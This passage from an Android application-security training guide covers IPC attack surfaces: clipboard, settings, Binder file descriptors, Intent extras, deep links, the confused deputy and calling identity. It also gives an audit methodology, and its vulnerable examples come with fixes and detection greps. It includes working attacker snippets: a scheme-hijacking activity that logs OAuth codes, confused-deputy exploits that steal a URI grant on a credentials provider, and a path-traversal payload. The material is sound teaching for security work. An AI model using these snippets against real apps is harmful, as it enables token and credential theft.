**Fix:** `Context.MODE_PRIVATE` (which is `0`), and `EncryptedSharedPreferences` from
`androidx.security` for anything sensitive, backed by a key in the AndroidKeyStore — see
[49-KeyStore](../49-KeyStore/README.md).

**Severity:** if a world-readable file contains authentication material, **Critical**. If it contains
only non-sensitive configuration, **Low**. State the exact file and mode in the finding, and include
the `ls -la` output as evidence.

### 3.15 The clipboard — a shared, system-wide buffer

The clipboard is a single global buffer managed by `ClipboardService` inside `system_server`. Any
data placed on it is, by design, available to whatever the user pastes into. Historically that meant
available to *every* app, continuously, by polling.

| Android version | Clipboard read policy |
|---|---|
| ≤ 9 (API 28) | Any app can read at any time, including from the background |
| 10 (API 29) | Only the app with input focus, or the default IME, can read |
| 12 (API 31) | A system toast appears when an app reads clipboard set by another app |
| 13 (API 33) | `ClipDescription.EXTRA_IS_SENSITIVE` hides content from the paste preview; clipboard auto-clears after a period |

Two directions of risk, again:

**Writing secrets to the clipboard.** A "copy password" or "copy card number" button, an OTP
auto-copy, or a "share my recovery phrase" feature places a secret into a system-wide buffer. On
Android 9 and below, any installed app reads it. On modern versions, whatever app the user next
focuses reads it — which is exactly the app an attacker would like you to focus.

```java
// VULNERABLE — the OTP is now in a shared buffer
ClipboardManager cm = (ClipboardManager) getSystemService(CLIPBOARD_SERVICE);
cm.setPrimaryClip(ClipData.newPlainText("otp", otpCode));
```

```java
// BETTER — mark it sensitive (API 33+) and clear it after use
ClipData clip = ClipData.newPlainText("otp", otpCode);
PersistableBundle extras = new PersistableBundle();
extras.putBoolean(ClipDescription.EXTRA_IS_SENSITIVE, true);
clip.getDescription().setExtras(extras);
cm.setPrimaryClip(clip);
new Handler(Looper.getMainLooper()).postDelayed(() -> {
    if (Build.VERSION.SDK_INT >= 28) cm.clearPrimaryClip();
}, 30_000);
// BEST — do not put secrets on the clipboard. Offer autofill or in-app paste instead.
```

**Reading from the clipboard and trusting it.** A crypto-wallet that reads a pasted address, or a
banking app that reads a pasted account number, is reading data an attacker may have placed there.
"Clipper" malware — which watches the clipboard for a cryptocurrency address and silently replaces it
with the attacker's — is a well-documented real-world family. The defence is on the *consuming* side:
show the user the full value, in a font that distinguishes similar characters, and require explicit
confirmation.

**Threat model:**

| Question | Answer |
|---|---|
| Who can reach it? | Any app with focus (API 29+); any app at all on API ≤ 28 |
| What does the attacker control? | Whatever they write; and they can observe whatever you write |
| What stops them? | The platform's focus restriction; `EXTRA_IS_SENSITIVE`; not using the clipboard |
| How to test | `cmd clipboard get` / `set` on recent builds, or a Frida hook on `ClipboardManager` methods (see `scripts/trace-ipc.js`) |

### 3.16 Settings.Secure and Settings.Global as a shared channel

`Settings.System`, `Settings.Secure` and `Settings.Global` are namespaces in a system
`ContentProvider` (`SettingsProvider`). They hold device configuration as key/value pairs. Most keys
are **readable by any app**; writing requires `WRITE_SETTINGS` (a special access the user must grant
through a settings screen) or `WRITE_SECURE_SETTINGS` (a `signature|privileged` permission normal
apps cannot get).

Why does an IPC chapter care? Two reasons.

**As a covert channel.** Two apps that can both write a settings key — for example two apps from the
same vendor that both hold `WRITE_SETTINGS` — can pass messages through it. More practically, an app
with `WRITE_SETTINGS` can influence any app that *reads* a key and trusts it.

**As untrusted input that developers treat as trusted.** This is the realistic finding. Code like
this appears in production apps:

```java
// VULNERABLE — treats a device setting as an authorisation decision
String id = Settings.Secure.getString(getContentResolver(), Settings.Secure.ANDROID_ID);
if (WHITELISTED_DEVICES.contains(id)) { enableDebugMenu(); }
```

or

```java
// VULNERABLE — a "root check" and a "developer mode" check that are trivially influenced
boolean devMode = Settings.Global.getInt(cr, Settings.Global.ADB_ENABLED, 0) == 1;
boolean isEmu   = Settings.Secure.getString(cr, "android_id") == null;
```

Settings values are attacker-influenceable in several ways: `ANDROID_ID` is per-app-signing-key since
Android 8 but is still just a string an instrumented process can hook; `ADB_ENABLED` is set by the
user; and on a rooted device every value is writable. Any security decision that depends on a
settings value is a decision made on untrusted input.

**Threat model:**

| Question | Answer |
|---|---|
| Who can read? | Almost any app, for `Secure` and `Global` |
| Who can write? | `WRITE_SETTINGS` (user-granted) for `System`; `WRITE_SECURE_SETTINGS` (privileged) for `Secure`/`Global`; `adb shell settings put` always; root always |
| Realistic risk | Not a data-exfiltration channel so much as an *input-trust* problem |
| Fix | Never let a settings value influence an authorisation or integrity decision. Do server-side checks server-side. |

```bash
# adb shell — read and write, to demonstrate the influence
settings get secure android_id
settings put global adb_enabled 0
settings list secure
```

### 3.17 File descriptors passed over Binder

A Binder parcel can carry a real file descriptor. The kernel duplicates it into the receiving
process, where it becomes a valid FD referring to the *same open file description* — same file, same
offset, same access mode.

This is enormously powerful, and it is how a great deal of Android works:

- `ContentProvider.openFile()` returns a `ParcelFileDescriptor`, which is how `content://` URIs
  deliver actual file content.
- `MemoryFile` / `SharedMemory` share an ashmem or memfd FD.
- `ParcelFileDescriptor.createPipe()` gives you a pipe you can hand to another process.
- `cmd`/`dumpsys` pass stdin/stdout/stderr over Binder, which is why their output reaches your
  terminal.

The security consequences are direct.

**Sending the wrong FD leaks whatever it points to.** The receiver has your access, to that file,
with your UID's rights already applied — the file was opened by *you*.

```java
// VULNERABLE ContentProvider.openFile — path traversal, and the FD is writable
@Override
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    File f = new File(getContext().getFilesDir(), uri.getLastPathSegment());
    return ParcelFileDescriptor.open(f, ParcelFileDescriptor.MODE_READ_WRITE);
}
```

`uri.getLastPathSegment()` on `content://auth/x/..%2F..%2Fdatabases%2Fapp.db` — or simply a path with
segments — can escape the base directory. Combined with `MODE_READ_WRITE`, the caller gets a writable
handle on the app's own database.

```java
// FIXED — canonicalise, confine to a base directory, and open read-only
@Override
public ParcelFileDescriptor openFile(Uri uri, String mode) throws FileNotFoundException {
    File base = new File(getContext().getFilesDir(), "public").getCanonicalFile();
    File f = new File(base, uri.getLastPathSegment()).getCanonicalFile();
    if (!f.getPath().startsWith(base.getPath() + File.separator)) {
        throw new SecurityException("path escapes base directory");
    }
    if (!"r".equals(mode)) throw new SecurityException("read-only provider");
    return ParcelFileDescriptor.open(f, ParcelFileDescriptor.MODE_READ_ONLY);
}
```

Better still, use `FileProvider` and let the framework do the confinement, declaring the allowed
subtrees in `res/xml/file_paths.xml`.

**Receiving an FD is also dangerous.** If your app accepts a `ParcelFileDescriptor` extra from an
Intent and writes to it, the attacker chose the destination. If you `mmap` it and read a structure
out of it, the attacker chose the contents and can change them under you (Section 3.13).

```java
// VULNERABLE — attacker chooses where our output goes
ParcelFileDescriptor pfd = getIntent().getParcelableExtra("out");
try (FileOutputStream fos = new FileOutputStream(pfd.getFileDescriptor())) {
    fos.write(exportUserData());     // exported to a file the attacker opened
}
```

**Detection:** search for `ParcelFileDescriptor`, `openFile`, `openAssetFile`, `MODE_READ_WRITE`,
`getParcelableExtra` with an FD type, and `dup`/`fcntl` in native code. At runtime,
`ls -l /proc/<pid>/fd` shows exactly which files a process has open, and a Frida hook on
`ParcelFileDescriptor.open` shows the paths as they are opened.

### 3.18 Intent extras and Bundles as an attack surface

An `Intent`'s extras are a `Bundle`: a map from `String` to arbitrary `Parcelable` values. The
attack-surface implications go deeper than "the attacker controls a string".

**Extras can contain nested Intents.** `intent.getParcelableExtra("next")` returning an `Intent` is
the raw material of intent redirection (Section 5.2 and [26-Intent](../26-Intent/README.md)).

**Extras can contain arbitrary Parcelable types**, including types the receiving app never
anticipated. `Bundle.get(key)` deserialises whatever is in the parcel. Historically this produced a
family of bugs where the *unmarshalling itself* was the vulnerability, because reading and writing a
`Bundle` could disagree about how many bytes an object occupies — the "self-changing Bundle" or
Parcel/Bundle mismatch class described in detail in
[25-Binder §3.7](../25-Binder/README.md#37-parcels--the-serialisation-format).

**Extras are lazily deserialised**, which means the crash or the bug happens not where the Intent
arrived but wherever `getExtras()` is first touched — often deep inside framework or library code
running with the app's identity.

**Practical rules for a receiving component:**

```java
// DEFENSIVE — how to read extras in an exported component
Intent in = getIntent();
if (in == null) { finish(); return; }

// 1. Read with explicit types; never Bundle.get(key) into an Object.
String urlStr = in.getStringExtra("url");
int    count  = in.getIntExtra("count", 0);

// 2. Validate before use. A URL extra is a URL from an attacker.
if (urlStr == null) { finish(); return; }
Uri u = Uri.parse(urlStr);
if (!"https".equals(u.getScheme()) || !ALLOWED_HOSTS.contains(u.getHost())) {
    finish(); return;
}

// 3. Never accept a nested Intent, ComponentName, or PendingIntent from an
//    untrusted caller and act on it. If you must, verify the target package.
Intent nested = in.getParcelableExtra("next");   // <- do not do this in exported code

// 4. Wrap deserialisation so a malformed parcel cannot take the process down
//    in a way that leaks state.
try { in.getExtras(); } catch (Exception e) { finish(); return; }
```

On API 33+ use the type-safe overloads, which reject unexpected types at the framework level:

```java
Intent nested = in.getParcelableExtra("next", Intent.class);       // API 33+
ArrayList<Uri> uris = in.getParcelableArrayListExtra("uris", Uri.class);
```

### 3.19 Deep links, App Links and custom schemes

A deep link is an implicit Intent carrying a URI, delivered to whichever app declared a matching
`<intent-filter>`. Three flavours exist, and the difference is entirely about who else can claim the
link.

| Flavour | Declaration | Who can also handle it | Verification |
|---|---|---|---|
| Custom scheme | `<data android:scheme="myapp"/>` | **Any app that declares the same scheme** | None — first-come or chooser |
| Web deep link (http/https, no `autoVerify`) | `<data android:scheme="https" android:host="ex.com"/>` | Any app declaring the same host, plus browsers | None — chooser appears |
| **App Link** (`android:autoVerify="true"`) | Same plus `autoVerify` | Only apps that pass verification | Android fetches `https://ex.com/.well-known/assetlinks.json` and checks the signing certificate fingerprint |

> **📖 Definition**
> **`assetlinks.json`.** A JSON file served at `https://<host>/.well-known/assetlinks.json` listing
> the package names and SHA-256 signing-certificate fingerprints permitted to handle links for that
> host. Android fetches it at install time (and periodically) and only grants verified default
> handling to a matching app. It is the mechanism that makes App Links non-hijackable.

**Custom scheme hijacking** is the direct consequence of row one. If a banking app registers
`bankapp://` and a malicious app registers the same scheme with the same host and path, then when a
link is followed Android shows a chooser — or, on some flows and OEM builds, picks one. The user is
one careless tap from handing an OAuth authorization code, a password-reset token, or a magic-link
token to the attacker. This is the classic reason OAuth on mobile must use PKCE and, where possible,
App Links rather than custom schemes. See [45-OAuth](../45-OAuth/README.md).

```xml
<!-- Attacker app claims the victim's scheme -->
<activity android:name=".Grabber" android:exported="true">
    <intent-filter android:priority="999">
        <action android:name="android.intent.action.VIEW"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <category android:name="android.intent.category.BROWSABLE"/>
        <data android:scheme="bankapp" android:host="oauth"/>
    </intent-filter>
</activity>
```

```java
// Attacker's Grabber activity — logs the token the victim's IdP redirected here
Uri u = getIntent().getData();
Log.i("grab", "code=" + u.getQueryParameter("code"));
```

**Testing deep links:**

```bash
# adb shell — fire a deep link exactly as a browser would
am start -a android.intent.action.VIEW \
         -c android.intent.category.BROWSABLE \
         -d "bankapp://oauth?code=TESTCODE&state=xyz"
```

```bash
# adb shell — what does the platform think handles this URI?
cmd package resolve-activity --brief -a android.intent.action.VIEW -d "https://ex.com/x"
# and the App Links verification state per package
cmd package get-app-links com.example.app
pm get-app-links com.example.app
dumpsys package domain-preferred-apps
```

```bash
# host — verify the assetlinks file is actually correct and served correctly
curl -sS https://ex.com/.well-known/assetlinks.json | python3 -m json.tool
# check: served over HTTPS with a valid chain, no redirect, content-type application/json,
# package_name and sha256_cert_fingerprints match the release signing cert
apksigner verify --print-certs app.apk | grep -i "SHA-256"
```

Common real findings in this area:

| Finding | Why it happens | Severity |
|---|---|---|
| Sensitive tokens delivered over a custom scheme | Easier than App Links; predates them | High |
| `autoVerify` declared but `assetlinks.json` missing, 404, redirected, or wrong fingerprint | Ops and app teams are different people | High — silently degrades to a hijackable link |
| Deep-link handler passes the URI straight into a WebView | The handler's whole job is "open this page" | High |
| Deep-link handler performs a state-changing action with no confirmation | `myapp://transfer?to=X&amt=Y` | High |
| Wildcard `pathPattern` matching more than intended | `.*` is easy | Medium |

Full treatment in [26-Intent](../26-Intent/README.md).

### 3.20 The confused deputy problem — worked properly

This is the most important concept in the chapter, so it gets a full worked example rather than a
definition and a shrug.

> **📖 Definition**
> **Confused deputy.** A program that holds authority is tricked by a less-privileged party into
> misusing that authority on the less-privileged party's behalf. The term comes from Norm Hardy's
> 1988 paper describing a compiler on a timesharing system: the compiler had permission to write to
> a billing file, and accepted an arbitrary output filename from its caller. A user who could not
> write the billing file directly simply asked the compiler to write its output there. The compiler
> was not malicious and was not compromised. It was *confused* about whose authority it was acting
> under.

The structure is always the same three parts:

1. A **deputy** with authority the requester lacks.
2. A **request** from the requester that names a target the deputy can reach.
3. **No check** that the requester was entitled to name that target.

#### 3.20.1 The Android worked example

Here is a realistic pair of components in a photo-editing app called `com.example.photos`.

```xml
<!-- com.example.photos/AndroidManifest.xml -->

<!-- The deputy: exported so other apps can send it a photo to process -->
<activity android:name=".ShareHandlerActivity" android:exported="true">
    <intent-filter>
        <action android:name="android.intent.action.SEND"/>
        <category android:name="android.intent.category.DEFAULT"/>
        <data android:mimeType="image/*"/>
    </intent-filter>
</activity>

<!-- The prize: NOT exported. Only this app can start it. -->
<activity android:name=".internal.AccountSettingsActivity" android:exported="false"/>

<!-- The data: NOT exported. Holds the user's cloud credentials. -->
<provider android:name=".data.CredentialProvider"
          android:authorities="com.example.photos.credentials"
          android:exported="false"
          android:grantUriPermissions="true"/>
```

The deputy's code:

```java
// com.example.photos — ShareHandlerActivity.java  (VULNERABLE)
public class ShareHandlerActivity extends Activity {
    @Override protected void onCreate(Bundle b) {
        super.onCreate(b);
        Intent in = getIntent();

        // The app supports a "continue to another screen after processing" feature,
        // used by its own onboarding flow. The next screen is passed as an extra.
        Intent next = in.getParcelableExtra("next_intent");
        if (next != null) {
            // The deputy blindly starts an Intent that an untrusted caller supplied.
            startActivity(next);
            finish();
            return;
        }
        processImage(in.getData());
    }
}
```

Now count the authority the deputy holds that the caller does not:

- It can start `com.example.photos/.internal.AccountSettingsActivity`, because same-app components
  can always start each other regardless of `exported`.
- It can read `content://com.example.photos.credentials/...`, because the provider is exported
  `false` but the owning app always has access.
- It can *grant* URI permissions on its own provider's URIs to a third party, because
  `grantUriPermissions="true"` and the granter must simply be the provider's owner.

The exploit, in full:

```java
// Attacker app — reaches a non-exported Activity through the deputy
Intent inner = new Intent();
inner.setClassName("com.example.photos",
                   "com.example.photos.internal.AccountSettingsActivity");
inner.putExtra("show_credentials", true);

Intent outer = new Intent(Intent.ACTION_SEND);
outer.setType("image/*");
outer.setClassName("com.example.photos",
                   "com.example.photos.ShareHandlerActivity");
outer.putExtra("next_intent", inner);      // the deputy will start this for us
startActivity(outer);
```

And the more valuable variant — stealing a content-URI grant:

```java
// Attacker app — make the deputy grant US read access to its private provider
Intent inner = new Intent(Intent.ACTION_VIEW);
inner.setClassName("com.attacker.app", "com.attacker.app.Receiver");   // OUR activity
inner.setData(Uri.parse("content://com.example.photos.credentials/tokens/1"));
inner.addFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION);

Intent outer = new Intent(Intent.ACTION_SEND);
outer.setType("image/*");
outer.setClassName("com.example.photos", "com.example.photos.ShareHandlerActivity");
outer.putExtra("next_intent", inner);
startActivity(outer);
```

When `ShareHandlerActivity` calls `startActivity(inner)`, the framework processes
`FLAG_GRANT_READ_URI_PERMISSION` **with the photo app as the granter**, because the photo app is the
one making the call and it owns the provider. The grant is issued to the attacker's activity. The
attacker now holds a legitimate, framework-issued read grant on a provider that is declared
`exported="false"`.



Follow the identity along the arrows. The first transaction carries UID 10250. The second — the one
that matters — carries UID 10199, because it originated inside the photo app's process. The framework
is behaving exactly as designed; it has no way to know that the photo app was repeating an
instruction it received from someone else.

**Why developers write this.** The "pass the next screen as an Intent extra" pattern is genuinely
convenient and appears in navigation libraries, onboarding flows, notification handling, and
deep-link routers. It is the natural way to express "do this, then go there". The developer's mental
model is that the extra comes from their own code, because in every code path *they* wrote, it does.
The exported intent filter — added so the app appears in the system share sheet — silently converted
an internal convention into a public API.

**Detection — static.** The signature is an exported component that obtains an `Intent`,
`ComponentName`, `PendingIntent` or `Uri` from an untrusted source and passes it to a
launch/bind/send API:

```bash
# host — find the pattern in decompiled sources
grep -rn "getParcelableExtra" out/sources/ | grep -iE "intent|component|pendingintent"
grep -rnE "startActivit(y|ies)\(|sendBroadcast\(|startService\(|bindService\(" out/sources/
# Correlate the two lists: any file appearing in both is a candidate.
```

```bash
# smali — the same idea one level down
grep -rn "getParcelableExtra" out/smali*/ -A6 | grep -n "Landroid/content/Intent;"
```

**Detection — dynamic.** Hook the launch APIs and log the Intent's origin, using
[`scripts/trace-ipc.js`](scripts/trace-ipc.js) or the Frida script in Section 7.3. If you see an
Intent whose component belongs to the target app but whose contents you supplied from outside, you
have confirmed redirection.

**Secure fix.** Three layers, in order of preference:

```java
// FIX 1 (best) — do not accept an Intent from a caller at all.
// Accept a small enumerated token instead, and build the Intent yourself.
String dest = getIntent().getStringExtra("next");
Intent next;
switch (dest == null ? "" : dest) {
    case "gallery":  next = new Intent(this, GalleryActivity.class); break;
    case "settings": next = new Intent(this, SettingsActivity.class); break;
    default:         next = new Intent(this, HomeActivity.class);
}
startActivity(next);
```

```java
// FIX 2 — if you must forward an Intent, prove it targets somewhere harmless
// and strip every dangerous property before using it.
Intent next = getIntent().getParcelableExtra("next_intent", Intent.class);
if (next != null) {
    ComponentName cn = next.resolveActivity(getPackageManager());
    if (cn == null || !cn.getPackageName().equals(getPackageName())) { finish(); return; }
    if (!ALLOWED_INTERNAL.contains(cn.getClassName())) { finish(); return; }
    // Strip URI grant flags so we cannot be used as a granting proxy.
    next.removeFlags(Intent.FLAG_GRANT_READ_URI_PERMISSION
                   | Intent.FLAG_GRANT_WRITE_URI_PERMISSION
                   | Intent.FLAG_GRANT_PERSISTABLE_URI_PERMISSION
                   | Intent.FLAG_GRANT_PREFIX_URI_PERMISSION);
    next.setSelector(null);
    next.setClipData(null);
    startActivity(next);
}
```

```java
// FIX 3 — separate the trusted and untrusted entry points entirely.
// The exported activity does nothing but sanitise and hand off to a
// non-exported activity via an explicit, freshly constructed Intent.
```

**Severity, honestly.** Depends entirely on what the redirection reaches:

| Reached target | Severity |
|---|---|
| A non-exported activity that displays or modifies user data, or a URI grant on a private provider | **High** |
| A non-exported activity with no sensitive function | Low–Medium |
| A `bindService` to a non-exported service with privileged methods | **High** |
| An internal WebView that then loads attacker-controlled content with app cookies | **High–Critical** |
| Only components that were already exported | **Not a finding** — say so |

That last row matters. Automated tools flag every `startActivity(getParcelableExtra(...))`. Your job
is to walk the path and determine what it actually reaches. A redirection that can only reach already
exported components is not a vulnerability, and reporting it as one costs you credibility.

### 3.21 Identity on the receiving side

Every server-side check in this chapter depends on knowing who is calling. Android gives you several
answers, and they are not equally trustworthy.

| API | Returns | Trustworthy? | Notes |
|---|---|---|---|
| `Binder.getCallingUid()` | The caller's Linux UID | **Yes** | Supplied by the kernel from the calling task's credentials. Cannot be forged. |
| `Binder.getCallingPid()` | The caller's PID | **Only for logging** | Truthful at the instant of the call, but see the race below |
| `Binder.getCallingUidOrThrow()` | Same as `getCallingUid` but throws when not in a transaction | Yes | Prevents the "returns my own UID" trap |
| `getCallingPackage()` (ContentProvider) | The caller's package name | Yes, with care | Derived from the calling UID; a shared UID can host several packages |
| `Activity.getCallingActivity()` / `getCallingPackage()` | The launching component | **Only if `startActivityForResult` was used** | Returns `null` for a plain `startActivity` — do not treat null as "internal" |
| `Message.sendingUid` | The Binder caller UID for a `Messenger` message | Yes (API 21+) | Almost universally unchecked |
| An identifier the caller put in an extra | Whatever they wrote | **No** | Never authenticate on this |
| `SO_PEERCRED` on a UNIX socket | `uid`, `gid`, `pid` of the peer | uid: yes; pid: same race | Set by the kernel at `connect()` time |

#### 3.21.1 Why `getCallingUid` is trustworthy and `getCallingPid` is racy

`getCallingUid()` returns a **UID**. A UID is a property of the Android *installation* of an
application. It is assigned by `PackageManagerService` at install time and does not change while the
app is installed. Crucially, it is recorded by the kernel in the calling task's credentials, and the
binder driver copies it into the transaction from `task_struct` — not from anything the caller wrote.
A caller cannot set it, cannot spoof it, and cannot cause a different UID to be reported. When
`getCallingUid()` returns 10250, UID 10250 really made this call.

`getCallingPid()` returns a **PID**. A PID identifies a *running process*, and processes are
short-lived. It is truthful at the moment the driver stamped it — but by the time your code reads it
and does something with it, the calling process may have exited and the kernel may have recycled that
PID number for a completely different process. On Linux, PID numbers are allocated sequentially and
wrap at `/proc/sys/kernel/pid_max`; an attacker who can spawn processes rapidly can, with patience,
arrange for a chosen PID number to be reused.

The dangerous pattern is therefore any check that takes the PID and then goes and *looks something
up* with it:

```java
// VULNERABLE — classic PID-reuse TOCTOU.
// Between the transaction arriving and this lookup, the calling process may have
// died and its PID been recycled by a different, more privileged process.
int pid = Binder.getCallingPid();
String[] pkgs = getPackageManager().getPackagesForUid(   // wrong lookup entirely
        readUidFromProc("/proc/" + pid + "/status"));
if (isTrusted(pkgs)) { doPrivilegedThing(); }
```

```java
// ALSO VULNERABLE — reading anything out of /proc/<pid> and trusting it
File cmdline = new File("/proc/" + Binder.getCallingPid() + "/cmdline");
String name = readAll(cmdline);
if ("com.example.trusted".equals(name.trim())) { doPrivilegedThing(); }
```

```java
// CORRECT — authorise on the UID, which is stable and kernel-supplied.
int uid = Binder.getCallingUidOrThrow();
if (uid != Process.myUid() && !isTrustedUid(uid)) {
    throw new SecurityException("caller " + uid + " not permitted");
}
```

Use the PID for log lines and for diagnostics. Never use it for a decision.

> **🔬 Under the Hood**
> The values come from `binder_transaction()` in `drivers/android/binder.c`, which populates the
> transaction's sender fields from the current task: the sender's `pid` from `task_tgid_nr(...)` and
> the sender's `euid` from the task's credentials. In userspace, `IPCThreadState` stores them in
> thread-local state (`mCallingUid`, `mCallingPid`) for the duration of the transaction, and
> `android_os_Binder_getCallingUid` in
> `frameworks/base/core/jni/android_util_Binder.cpp` returns the stored value to Java. Because the
> value is captured from kernel-held credentials rather than from the parcel, there is nothing in the
> message the caller could alter to change it.

#### 3.21.2 `clearCallingIdentity` and `restoreCallingIdentity` — and the vulnerability pattern

Sometimes a service legitimately needs to perform an operation using **its own** identity rather than
the caller's. Example: `system_server` handling a request from an app, and needing to write to a file
only `system` can write. If it made that call while the thread still carried the caller's identity,
downstream permission checks would be evaluated against the app and would fail.

The mechanism is:

```java
long token = Binder.clearCallingIdentity();   // thread now reports MY uid/pid
try {
    doPrivilegedWork();                       // downstream checks see uid = mine
} finally {
    Binder.restoreCallingIdentity(token);     // MUST be in a finally block
}
```

`clearCallingIdentity()` sets the thread's calling identity to the *current process's* UID and PID,
and returns an opaque token encoding the previous values. `restoreCallingIdentity(token)` puts them
back.

Four distinct vulnerability patterns arise from this, and all four appear in real code.

**Pattern 1 — clear before the check.** The permission check is performed *after* identity was
cleared, so it checks the service against itself and always passes.

```java
// VULNERABLE — the check is meaningless
public void deleteAllUserData(String pkg) {
    long token = Binder.clearCallingIdentity();     // <-- too early
    try {
        // getCallingUid() now returns MY OWN uid, so this always succeeds
        if (Binder.getCallingUid() == Process.SYSTEM_UID) {
            wipe(pkg);
        }
    } finally { Binder.restoreCallingIdentity(token); }
}
```

```java
// FIXED — capture and check identity FIRST, clear only for the privileged step
public void deleteAllUserData(String pkg) {
    final int callingUid = Binder.getCallingUidOrThrow();
    enforceCallerIsTrusted(callingUid);              // check with the real identity
    final long token = Binder.clearCallingIdentity();
    try {
        wipe(pkg);                                   // privileged step only
    } finally { Binder.restoreCallingIdentity(token); }
}
```

**Pattern 2 — the cleared window is too wide.** Identity is cleared around a large block that
includes a call back into attacker-influenced code, or a call to another service that does its own
permission check. Every check inside that block is now evaluated against the service, not the caller.

```java
// VULNERABLE — the whole request runs with elevated identity
long token = Binder.clearCallingIdentity();
try {
    validate(request);
    ContentResolver cr = ctx.getContentResolver();
    cr.query(request.uri, null, null, null, null);   // attacker-chosen URI,
                                                     // read with OUR privileges
    notifyListeners(request);
} finally { Binder.restoreCallingIdentity(token); }
```

The attacker supplies `content://com.android.providers.contacts/...` — or any provider the service's
UID can read but the caller's cannot — and the service reads it on their behalf. This is the confused
deputy again, wearing a different hat.

**Pattern 3 — no `finally`.** If the guarded code throws, identity is never restored. The Binder
thread is pooled and reused for the *next* transaction, which now runs with the wrong identity.

```java
// VULNERABLE — an exception leaks elevated identity into the next transaction
long token = Binder.clearCallingIdentity();
doWork();                                    // if this throws, we never restore
Binder.restoreCallingIdentity(token);
```

**Pattern 4 — restoring the wrong token, or restoring twice.** Nested clear/restore pairs that are
not strictly LIFO corrupt the thread's identity state.

**How to find it.** In decompiled code, look for `clearCallingIdentity` and read the surrounding
method carefully every single time:

```bash
# host — every use, with context
grep -rn -A20 "clearCallingIdentity" out/sources/
grep -rn "clearCallingIdentity" out/smali*/
```

For each hit, answer three questions: (1) was the caller's identity checked *before* the clear?
(2) how much code runs inside the cleared window, and does any of it act on caller-supplied data?
(3) is the restore in a `finally`?

This matters most when auditing **system apps, OEM services, and privileged APKs**, because those
have identity worth borrowing. In an ordinary third-party app, `clearCallingIdentity` is rarely
present and rarely interesting — although it does appear in apps that host their own AIDL services
for a companion app.

### 3.22 A full methodology for enumerating an app's IPC surface

This is the part to internalise. Everything above is background; this is what you actually do on an
engagement, in order.



#### Step 0 — Record the ground truth

```bash
# host
aapt2 dump badging app.apk | grep -E "package|sdkVersion|targetSdkVersion"
apksigner verify --print-certs app.apk
adb shell getprop ro.build.version.sdk
adb shell getprop ro.build.version.security_patch
```

You cannot judge whether a behaviour is a vulnerability without knowing which platform rules apply.
Write these into the report's methodology section.

#### Step 1 — Manifest inventory

```bash
# host
apktool d -f app.apk -o work/
```

Extract every component with its export status, permission, and filters:

```bash
# host — quick, readable inventory
python3 - <<'PY' 2>/dev/null || true
PY
grep -nE "<(activity|activity-alias|service|receiver|provider)" work/AndroidManifest.xml
grep -nE "android:exported=\"true\"" work/AndroidManifest.xml
grep -nE "<permission |protectionLevel" work/AndroidManifest.xml
grep -nE "grantUriPermissions|path-permission|<data " work/AndroidManifest.xml
```

The scripted version — which produces a table you can paste into a report — is
[`scripts/ipc-surface-report.py`](scripts/ipc-surface-report.py).

For each exported component record: name, type, whether a permission is required, and **the
protection level of that permission**. A permission at `normal` protection is not a control; any app
can request and receive it. Only `signature` (and `signatureOrSystem`) actually restrict.

```bash
# adb shell — resolve a declared permission's protection level on the device
dumpsys package permission com.example.app.permission.INTERNAL | grep -i protection
pm list permissions -f | grep -A3 "com.example.app.permission.INTERNAL"
```

#### Step 2 — Code-level channels the manifest cannot show

```bash
# host — after jadx -d out/ app.apk
grep -rn "LocalServerSocket\|LocalSocketAddress\|Namespace.ABSTRACT" out/sources/
grep -rnE "new ServerSocket\(|ServerSocketChannel|NanoHTTPD|Netty|MockWebServer" out/sources/
grep -rn "MemoryFile\|SharedMemory\|ashmem\|memfd" out/sources/
grep -rn "MODE_WORLD_READABLE\|MODE_WORLD_WRITEABLE\|setReadable(true, false)" out/sources/
grep -rn "ClipboardManager\|setPrimaryClip\|getPrimaryClip" out/sources/
grep -rn "getExternalStorage\|EXTERNAL_CONTENT_URI" out/sources/
grep -rn "clearCallingIdentity\|getCallingUid\|getCallingPid" out/sources/
grep -rn "PendingIntent.getActivity\|FLAG_MUTABLE" out/sources/
grep -rn "Runtime.getRuntime().exec\|ProcessBuilder" out/sources/
```

And in native libraries:

```bash
# host
for so in $(find work/lib -name '*.so'); do
  echo "== $so"
  strings -a "$so" | grep -E "^@[a-zA-Z0-9._-]+$|\.sock|127\.0\.0\.1|0\.0\.0\.0|/dev/socket" 
  nm -D --defined-only "$so" 2>/dev/null | grep -iE "socket|bind|listen|ipc"
done
```

#### Step 3 — Live enumeration on the device

```bash
# adb shell — the complete live picture for one package
PKG=com.example.app
PID=$(pidof -s $PKG)
UID_=$(dumpsys package $PKG | grep -m1 userId= | tr -dc '0-9')

echo "== components =="
dumpsys package $PKG | sed -n '/Activity Resolver Table/,/Permissions:/p'

echo "== registered binder services (system-wide) =="
service list

echo "== unix sockets (abstract entries start with @) =="
cat /proc/net/unix | grep -iE "$PKG|@"

echo "== listening tcp/udp =="
netstat -tulpn 2>/dev/null | grep -i "$PKG" || cat /proc/net/tcp

echo "== open fds =="
ls -l /proc/$PID/fd 2>/dev/null

echo "== memory maps: ashmem/memfd =="
grep -E "ashmem|memfd|dmabuf" /proc/$PID/maps 2>/dev/null

echo "== file modes in the data dir =="
ls -laZ /data/data/$PKG /data/data/$PKG/shared_prefs 2>/dev/null
```

The full, robust version is [`scripts/enumerate-ipc-surface.sh`](scripts/enumerate-ipc-surface.sh).

#### Step 4 — Prove reachability from an unprivileged app

This is the step that separates a real finding from a false positive, and it is skipped constantly.
`adb shell` runs as UID 2000 with SELinux context `shell`, which has privileges no third-party app
has. Everything you demonstrate from the shell must be reproduced from an ordinary app before you
write it up.

Use Drozer (Section 7.2), which runs as a normal app, or build a minimal attacker APK — a template is
provided in [`examples/attacker-app/`](examples/attacker-app/).

#### Step 5 — Reach-through analysis

For every reachable entry point, answer: **what can I make this component do that I could not do
directly?** Trace the data flow from `getIntent()` / `query()` / the socket read into the app's
internals. The high-severity findings are always about reach-through, not about the door itself.

#### Step 6 — Exploit and evidence

Produce, for each finding: the exact command or code, the observable result, a screenshot or log
excerpt, the device fingerprint, and the app version. A finding a client cannot reproduce is a
finding a client will dispute.

#### Step 7 — Severity, honestly

| Question | If yes |
|---|---|
| Does it expose authentication material, PII, or financial data? | High or Critical |
| Does it perform a state-changing action without user confirmation? | High |
| Does it require the user to install a malicious app? | That is the *normal* Android threat model — do not discount for it |
| Does it require the user to grant a dangerous permission to the attacker app? | Discount one level and say so |
| Does it only work from `adb shell` or with root? | Usually **not a finding** against the app — say so explicitly |
